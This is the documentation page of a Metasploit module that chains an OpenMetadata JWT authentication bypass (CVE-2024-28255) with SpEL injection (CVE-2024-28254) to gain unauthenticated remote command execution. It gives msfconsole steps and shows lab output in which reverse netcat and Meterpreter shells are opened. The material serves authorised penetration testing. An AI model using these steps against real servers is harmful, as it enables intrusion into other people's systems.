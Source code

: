 ## Vulnerable Application

OpenMetadata is a unified platform for discovery, observability, and governance powered by a central metadata repository,
in-depth lineage, and seamless team collaboration.
This module chains two vulnerabilities that exist in the OpenMetadata application.
The first vulnerability, [CVE-2024-28255](https://nvd.nist.gov/vuln/detail/CVE-2024-28255), bypasses the API authentication
using JWT tokens. It misuses the `JwtFilter` that checks the path of url endpoint against a list of excluded endpoints
that does not require authentication.
Unfortunately, an attacker may use Path Parameters to make any path contain any arbitrary strings that will match the
excluded endpoint condition and therefore will be processed with no JWT validation allowing an attacker to bypass the
authentication mechanism and reach any arbitrary endpoint.
By chaining this vulnerability with [CVE-2024-28254](https://nvd.nist.gov/vuln/detail/CVE-2024-28254), that allows for
arbitrary SpEL injection at endpoint `/api/v1/events/subscriptions/validation/condition/<expression>`,attackers are able
to run arbitrary commands using Java classes such as `java.lang.Runtime` without any authentication.

OpenMetadata versions `1.2.3` and below are vulnerable.

The following releases were tested.
* OpenMetadata 1.2.3 on Docker

## Installation steps to install the OpenMedata running on Docker
* Please follow these [installation instructions](https://docs.open-metadata.org/v1.3.x/quick-start/local-docker-deployment).
* Please ensure that you download version 1.2.3 or below.
* After successful installation your should be able to access OpenMetadata on port 8585 at `http://your_openmetadata_ip:8585`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/openmetadata_auth_bypass_rce`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ]  `set lhost <attacker-ip>`
- [ ] `set target <0=Unix Command, 1=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse netcat shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options

## Scenarios
```msf
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > info

       Name: OpenMetadata authentication bypass and SpEL injection exploit chain
     Module: exploit/linux/http/openmetadata_auth_bypass_rce
   Platform: Unix, Linux
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-03-15

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Alvaro Muñoz alias pwntester (https://github.com/pwntester)

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                        html
  RPORT      8585             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The URI path of the OpenMetadata web application
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  OpenMetadata is a unified platform for discovery, observability, and governance powered
  by a central metadata repository, in-depth lineage, and seamless team collaboration.
  This module chains two vulnerabilities that exist in the OpenMetadata aplication.
  The first vulnerability, CVE-2024-28255, bypasses the API authentication using JWT tokens.
  It misuses the `JwtFilter` that checks the path of the url endpoint against a list of excluded
  endpoints that does not require authentication. Unfortunately, an attacker may use Path Parameters
  to make any path contain any arbitrary strings that will match the excluded endpoint condition
  and therefore will be processed with no JWT validation allowing an attacker to bypass the
  authentication mechanism and reach any arbitrary endpoint.
  By chaining this vulnerability with CVE-2024-28254, that allows for arbitrary SpEL injection
  at endpoint `/api/v1/events/subscriptions/validation/condition/<expression>`, attackers
  are able to run arbitrary commands using Java classes such as `java.lang.Runtime` without any
  authentication.
  OpenMetadata versions `1.2.3` and below are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-28255
  https://nvd.nist.gov/vuln/detail/CVE-2024-28254
A  https://securitylab.github.com/advisories/GHSL-2023-235_GHSL-2023-237_Open_Metadata/
  https://attackerkb.com/topics/f19fXpZn62/cve-2024-28255
  https://ethicalhacking.uk/unmasking-cve-2024-28255-authentication-bypass-in-openmetadata/


View the full module info with the info -d command.
```
### OpenMetadata 1.2.3 Automatic - cmd/unix/reverse_netcat_gaping
```msf
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set rhosts 192.168.201.42
rhosts => 192.168.201.42
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of OpenMetadata.
[+] The target is vulnerable. Version 1.2.3
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[*] Command shell session 17 opened (192.168.201.8:4444 -> 192.168.201.42:55160) at 2024-07-29 15:27:38 +0000

id
uid=1000(openmetadata) gid=1000(openmetadata) groups=1000(openmetadata)
pwd
/opt/openmetadata
uname -a
Linux 1e3c578a0acc 6.6.32-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Jun 13 14:14:43 UTC 2024 x86_64 Linux
```
### OpenMetadata 1.2.3 Automatic - cmd/linux/http/x64/meterpreter/reverse_tcp
```msf
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of OpenMetadata.
[+] The target is vulnerable. Version 1.2.3
[*] Executing Automatic for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 192.168.201.42
[*] Meterpreter session 11 opened (192.168.201.8:4444 -> 192.168.201.42:50599) at 2024-07-31 14:31:37 +0000

meterpreter > getuid
Server username: openmetadata
meterpreter > sysinfo
Computer     : 172.16.240.4
OS           :  (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/openmetadata
meterpreter >
```
## Limitations
No limitations.
